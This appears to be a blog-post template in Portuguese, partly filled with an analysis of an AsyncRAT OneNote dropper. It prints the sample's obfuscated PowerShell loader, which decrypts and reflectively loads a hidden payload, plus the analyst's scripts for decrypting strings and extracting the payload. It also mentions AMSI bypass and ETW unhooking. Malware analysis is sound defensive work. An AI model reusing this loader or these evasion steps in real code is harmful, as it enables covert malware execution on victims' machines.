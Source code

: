 ```yaml
---
title: "Título"
classes: wide
header:
  teaser: /assets/images/AsyncRAT-OneNote-Dropper/logo.png
  overlay_image: /assets/images/AsyncRAT-OneNote-Dropper/logo.png
  overlay_filter: 0.5
ribbon: DarkSlateGray
excerpt: "Descrição de dentro do post"
description: "Descrição do card do post"
categories:
  - Malware Analysis
tags:
  - AsyncRAT
  - PowerShell
  - OneNote
  - Batch
  - .NET
  - Config Extraction  
toc: true
toc_sticky: true
toc_label: "On This Blog"
toc_icon: "biohazard"
---
```


# Intro
Texto de into...

# Tópico 1
Exemplo de como colocar foto (foto do post do blog que fiz o fork)
![image.png](/assets/images/AsyncRAT-OneNote-Dropper/1.png)


# Tópico 2
Exemplo
1. The script ....
2. A huge ...
3. A call ...


Exemplo de codigo no post
```powershell
1.
copy C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe /y "%~0.exe"

2.
cd "%~dp0"

3.
"%~nx0.exe" -noprofile -windowstyle hidden -ep bypass -command $flLnL = [System.IO.File]::('txeTllAdaeR'[-1..-11] -join '')('%~f0').Split([Environment]::NewLine);foreach ($jhglm in $flLnL) { if ($jhglm.StartsWith(':: ')) {  $uDeAm = $jhglm.Substring(3); break; }; };$dLIJD = [System.Convert]::('gnirtS46esaBmorF'[-1..-16] -join '')($uDeAm);$nJkwh = New-Object System.Security.Cryptography.AesManaged;$nJkwh.Mode = [System.Security.Cryptography.CipherMode]::CBC;$nJkwh.Padding = [System.Security.Cryptography.PaddingMode]::PKCS7;$nJkwh.Key = [System.Convert]::('gnirtS46esaBmorF'[-1..-16] -join '')('I5NM1YScgS/1//5R8gmm/tnI3DRCjxBbFnAG0xn8rTc=');$nJkwh.IV = [System.Convert]::('gnirtS46esaBmorF'[-1..-16] -join '')('mehcJXqMnXZUmnmrBD1Eeg==');$bIbyd = $nJkwh.CreateDecryptor();$dLIJD = $bIbyd.TransformFinalBlock($dLIJD, 0, $dLIJD.Length);$bIbyd.Dispose();$nJkwh.Dispose();$gJfcg = New-Object System.IO.MemoryStream(, $dLIJD);$dkGYN = New-Object System.IO.MemoryStream;$yfRSU = New-Object System.IO.Compression.GZipStream($gJfcg, [IO.Compression.CompressionMode]::Decompress);$yfRSU.CopyTo($dkGYN);$yfRSU.Dispose();$gJfcg.Dispose();$dkGYN.Dispose();$dLIJD = $dkGYN.ToArray();$qMhaY = [System.Reflection.Assembly]::('daoL'[-1..-4] -join '')($dLIJD);$haTMg = $qMhaY.EntryPoint;$haTMg.Invoke($null, (, [string[]] ('%*')))
```


```python
Print('Exemplo de código')

```


# Títlo 3

- **Exemplo subtopico** (exemplo de link [found here](https://github.com/rasta-mouse/AmsiScanBufferBypass/blob/main/AmsiBypass.cs)

![image-3.png](/assets/images/AsyncRAT-OneNote-Dropper/10.png)

- **Exemplo subtopico 2** which will disable the logging for Assembly.Load calls, this topic is explained in depth by [XPN](https://blog.xpnsec.com/hiding-your-dotnet-etw/).

```powershell
$reflectedAsm = [System.Reflection.Assembly]::LoadFile(PATH_TO_FILE)

$mainType = $reflectedAsm.GetType("rwcQssqTcyOdXXoBLoie.DCPmslvtGCDAiOhxxQvq")

$key = [System.Convert]::FromBase64String("iUlREPUR7NQ6ocefGLoxBty1eSNembQTSWsROZidb0A=")
$iv = [System.Convert]::FromBase64String("U+YnktYGyx/j43tP2+WVyw==")

$encryptedStrings = ("8qhzRqWw9fiH/7/a5reZMA==", "D/l1SD7OECP0XB2rUm87gA==", "lbk35FoNbOitTifMeNV97Q==", "uJDwrcc4OjLfnn4YCE0Bxw==", "x9nd50/ydQ4NyJMlduaTA1aZE7EpXLNuSa2GwfmjWlxjNEtyTrE+c9z9hlGIXS4Q")

foreach ($encArg in $encryptedStrings){
    $decodedArg = [System.Convert]::FromBase64String($encArg)
    $DecResult = [System.Text.Encoding]::UTF8.GetString(($mainType.GetMethod("MvljRQYEXFVoIflOHPxg")).invoke($null,@($decodedArg, $key, $iv)))
    Write-Output $DecResult
}
```
The decrypted strings are:
```console
AmsiScanBuffer
EtwEventWrite
payload.exe
runpe.dll
/c choice /c y /n /d y /t 1 & attrib -h -s "
```
The first two strings are part of the AMSI Bypass and ETW Unhooking procedures.
`payload.exe` and `runpe.dll` are strings that the loader will try to fetch from the binary resources, if we look at the resources of this binary we can see 2 resources:
- payload.exe
- Ticket_Reprint.pdf
The loader will iterate through the binary resources and if the name of the resource isn't one of the decrypted strings it will instantly fetch the content of the resource and execute it.
In our case the loader will load a fake PDF for the user:

![image-6.png](/assets/images/AsyncRAT-OneNote-Dropper/13.png)

![image-9.png](/assets/images/AsyncRAT-OneNote-Dropper/14.png)

![image-8.png](/assets/images/AsyncRAT-OneNote-Dropper/15.png)

The loader will decrypt the content of `payload.exe` resource which will be another **.gz** archive and it will decompress it with the method `XWmzUoViPReUSRriqGvB`.

![image-10.png](/assets/images/AsyncRAT-OneNote-Dropper/16.png)

For this I've also implemented a quick PowerShell script that will invoke those methods to retrieve the final payload 
```powershell
$stream = $reflectedAsm.GetManifestResourceStream("payload.exe")
$binaryReader = New-Object System.IO.BinaryReader($stream)
$contents = $binaryReader.ReadBytes($stream.Length)
$DecryptedGZ = $mainType.GetMethod("MvljRQYEXFVoIflOHPxg").invoke($null,@($contents, $key, $iv))
$finalPayload = $mainType.GetMethod("XWmzUoViPReUSRriqGvB").invoke($null, @(,$DecryptedGZ))

[io.file]::WriteAllBytes(PATH_TO_FILE,$finalPayload)
```
